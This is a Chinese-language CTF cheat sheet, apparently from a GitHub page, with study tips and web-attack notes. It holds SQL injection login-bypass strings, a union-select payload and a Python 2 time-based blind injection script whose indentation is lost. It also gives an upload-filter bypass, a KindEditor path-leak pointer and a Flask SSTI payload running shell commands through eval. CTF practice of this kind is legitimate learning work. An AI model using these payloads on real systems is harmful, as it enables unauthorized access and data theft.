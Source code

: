 # 学习基本思路

    * 第一阶段，拿到题目要能看懂
    * 第二阶段，分析出题目逻辑

    * 做了一个月题啥也不会也是正常的...

    * 学习曲线坑爹，怎么开始不重要，但是一定要坚持下来

    * 保持练习强度，量变引起质变，瓶颈期，不存在的
    * 新手过招，靠的是技巧,高手过招，靠的是技术

# WEB

.index.php.swp 文件可能隐藏源代码
16进制编码可以绕过注入

## sql绕过，万能密码

假设sql语句如下：
select * from user where username='用户名' and password='密码'

---

### 数据类型

sql里面弱类型的比较，以下情况都会为true：

- 1='1'
- 1='1.0'
- 1='1后接字母(再后面有数字也可以)'
- 0='除了非0数字开头的字符串'
    uname=admin
    &passwd=admin'||'1'='1

### 双等号

username=p'='&password=p'='
### 特殊截断符号“%00

username=a'+0;%00&password=

## 回显注入

?name=admin' and 1=2 union select 1,2,group_concat(flag) from flag--+

## 延时注入

import requests

import string

s=requests.session()

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

flag=''

guess=string.lowercase+string.uppercase+string.digits

for i in range(33):

for st in guess:

headers={"x-forwarded-for":"1'+"+"(select case when(substr((select flag from flag) from %d for 1)='%s') then sleep(5) else 1 end) and '1'='1" %(i,st)}

try:

res=s.get(url,headers=headers,timeout=4)

except requests.exceptions.ReadTimeout:

flag+=st

print "flag:",flag

break

print "result:"+flag

## 图片上传

upload success, but not php!
multipart/form-data变换一下大小写，再把第二个Content-Type改成图片类

## kindeditor4.1.7

泄漏路径问题，漏洞根源位于/php/file_manager_json.php。

# 杂碎

培根密码,当铺密码解密，JS/VBS/ASP加密解密  
cap无线密码破解-aircrack-win  
cap包无线解密，airdecap-ng -e SSID -p PASSWORD
MP3Stego Decode.exe -X -P PASSWORD
rz sz命令

## string 命令提取字符串，tr去除换行

strings qweqwe.pcapng | grep '^[a-z0-9]\{14\}$' | tr -d '\n' > test.txt  

## 工具

cheat engine
## 隐写

outguess -r 图片名 文件名

## flask ssti

{% for c in [].__class__.__base__.__subclasses__() %} {% if c.__name__ == 'catch_warnings' %} {% for b in c.__init__.func_globals.values() %} {% if b.__class__ == {}.__class__ %} {% if 'eval' in b.keys() %} {{ b['eval']('__import__("os").popen("ls").read()') }} {% endif %} {% endif %} {% endfor %} {% endif %} {% endfor %} 
